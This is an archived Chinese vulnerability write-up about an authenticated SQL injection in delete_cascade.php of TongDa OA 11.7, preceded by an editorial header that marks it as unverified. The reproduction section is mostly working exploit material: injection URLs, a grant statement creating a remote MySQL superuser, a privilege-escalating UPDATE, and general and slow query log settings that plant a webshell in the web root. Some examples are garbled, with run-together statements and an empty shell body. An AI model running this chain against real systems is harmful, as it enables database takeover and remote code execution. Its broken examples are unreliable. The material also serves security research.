# 通达OA delete_cascade.php后台任意SQL→数据库提权/日志写入链

## 条目说明

- 对象与具体问题：通达OA；delete_cascade.php后台任意SQL→数据库提权/日志写入链
- 版本、配置及部署条件：TD OA11.7；MySQL高权限、远程端口可达、日志写Web目录
- 认证与权限前提：明确需登录
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 细致SQL过滤/错误真假对照与高权限条件有价值，与通达delete_cascade专题互补
- 示例select if两句粘连，日志写shell的select正文变成空字符串，核心PHP内容丢失
- 新建远程数据库账号、改权限、开日志和写文件有显著副作用，不能标安全检测；缺精确补丁/原始源码文本

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/U34PNTUx1CXu80TZmmTwSQ)

一、漏洞简介：

delete_cascade.php 文件中存在盲注，可执行任意 sql 语句，由于数据库用户一般权限较高，所以导致可通过注入点高权限数据库用户，去添加一个用于远程连接 mysql 的用户，再给此新用户添加对应的权限后，利用日志文件 getshell

影响版本：

TD OA v11.7 版本

限制条件：

需要账号进行登录

二、漏洞分析：

注入漏洞在：/general/hr/manage/query/delete_cascade.php 文件中

此文件是需要登录后才能访问的，首先判断变量 $condition_cascade 是否为空，然后将 \'替换为'后赋值给 $query 变量，然后直接带入 exequery() 函数中执行，而变量 $condition_cascade 通过程序本身的变量覆盖漏洞进行赋值即可



跟进 exequery() 函数：/inc/conn/php 36-45 行



如果执行错误会调用 PrintError() 函数进行错误信息输出



然后又调用 db_query() 函数：/inc/conn/php 47-70 行

首先对传入的 $Q 进行字符串替换，然后带入 sql_injection() 函数执行，最后直接调用原生的 mysql_query() 函数对 sql 语句进行执行



继续跟进 sql_injection() 函数：/inc/conn/php 110-187 行

首先还是对传入的参数进行一些字符串的替换，以及正则匹配替换，这些影响不大，我们接着往后看



153 行开始，通过一系列的正则匹配，对传入的 sql 语句进行判断并过滤，一些报错注入使用的函数、联合查询函数、以及写文件的函数等等都进行了黑名单过滤，如果满足任意一个 if 判断就会将 $fail 设为 true，但是 if、substr 等函数并没有过滤掉，所以还是可以进行盲注判断的



如果触发了过滤代码，就会执行以下代码，并 exit 退出程序



还可以利用 mysql 中的冷门函数，使 sql 语句执行时就会报错，从而使程序调用 **PrintError()** 函数进行报错信息的输出，而执行成功会输出下面的信息，通过两次执行语句返回的信息不同判断注入是否存在



例如：

```
select if(0,power(9999,99),2)select if(1,power(9999,99),2)
```

如果条件为 TRUE 则执行 power(9999,99)，如果条件为 FALSE 则返回 2，而 power() 函数是返回 9999 的 99 次方，当执行会报如下错误：


当成功判断注入存在后，因为漏洞点是可以执行任意 sql 语句的，所以我们可以通过程序本身 mysql 用户权限高的先决条件进行深入的利用

三、漏洞复现：

1、判断注入是否存在：

```
http://192.168.136.148:8081/general/hr/manage/query/delete_cascade.php?condition_cascade=select if(0,power(9999,99),2);
```

执行成功会返回如下信息：  



```
http://192.168.136.148:8081/general/hr/manage/query/delete_cascade.php?condition_cascade=select if(1,power(9999,99),2);
```

执行报错则返回：  



根据两次执行返回结果的不同，可以判断注入存在

2、添加用户远程连接 mysql：

```
http://192.168.136.148:8081/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql.* TO 'test111'@'%' IDENTIFIED BY 'test111@123' WITH GRANT OPTION
```



然后利用添加的用户 test111 远程连接 mysql，注意默认端口为 3336



给新添加的 test111 用户添加对应的权限：

```
UPDATE `mysql`.`user` SET `Password` = '*5ADFDA524177A8EB24D7671EF80A46F95C68D4ED', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('test111' AS Binary(7));
```

如果需要改用户名和密码的话需要对相应字段进行更改，Binary(7) 中的数值根据字符串长度更改  



3、用注入点刷新权限，因为新添加的用户是没有权限进行刷新的：

```
http://192.168.136.148:8081/general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges
```



执行完之后会提示：



重新执行一下添加用户的命令即可：

```
http://192.168.136.148:8081/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql.* TO 'test111'@'%' IDENTIFIED BY 'test111@123' WITH GRANT OPTION
```


4、通过日志写 shell：

查询 mysql 安装路径

```
select @@basedir
```



那么可以得出 web 根目录为：

D:/MYOA/webroot

①通过全局日志写 shell：

```
set global general_log = on;
set global general_log_file = 'D:/MYOA/webroot/_inc.php';
select '';
show variables like '%general%';
```



连接 webshell：



②通过慢查询日志写 shell，步骤类似：

```
set global slow_query_log=on;
set global slow_query_log_file='D:/MYOA/webroot/_inc.php';
select '' or sleep(11);
```

**文笔浅显，如有错误欢迎各位师傅们交流提出**

  

**☆ END ☆**

**点个赞和在看吧，欢迎转发！**


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
